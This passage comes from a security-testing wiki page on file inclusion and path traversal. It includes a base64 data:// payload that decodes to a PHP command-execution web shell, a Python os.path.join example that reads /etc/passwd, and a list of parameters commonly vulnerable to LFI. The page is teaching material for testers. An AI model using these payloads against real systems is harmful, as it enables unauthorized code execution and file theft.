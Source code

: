 {% hint style="info" %}
In the previous code, the final `+.txt` was added because the attacker needed a string that ended in `.txt`, so the string ends with it and after the b64 decode that part will return just junk and the real PHP code will be included (and therefore, executed).
{% endhint %}

Another example **not using the `php://` protocol** would be:

{% code overflow="wrap" %}
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```
{% endcode %}

## Python Root element

In python in a code like this one:

```python
# file_name is controlled by a user
os.path.join(os.getcwd(), "public", file_name)
```

If the user passes an **absolute path** to **`file_name`**, the **previous path is just removed**:

```python
os.path.join(os.getcwd(), "public", "/etc/passwd")
'/etc/passwd'
```

It is the intended behaviour according to [the docs](https://docs.python.org/3.10/library/os.path.html#os.path.join):

> If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component.

## Java List Directories

It looks like if you have a Path Traversal in Java and you **ask for a directory** instead of a file, a **listing of the directory is returned**. This won't be happening in other languages (afaik).

## Top 25 parameters

Here’s list of top 25 parameters that could be vulnerable to local file inclusion (LFI) vulnerabilities (from [link](https://twitter.com/trbughunters/status/1279768631845494787)):

```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
```